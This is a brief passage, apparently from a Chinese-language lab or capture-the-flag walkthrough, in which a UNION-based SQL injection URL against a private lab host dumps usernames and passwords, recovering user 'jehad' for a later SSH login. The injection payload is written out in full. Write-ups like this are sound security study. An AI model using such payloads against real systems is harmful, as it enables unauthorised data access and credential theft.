

# SQL 注入获取用户
最终`192.168.186.147/dashboard.php?id=NULL' UNION ALL SELECT 1,user,pass,4,5,6 FROM ssh-- -`，把password和username给dump出来，获得用户`jehad`及其密码。

获取的用户名与密码在之后用于ssh登录。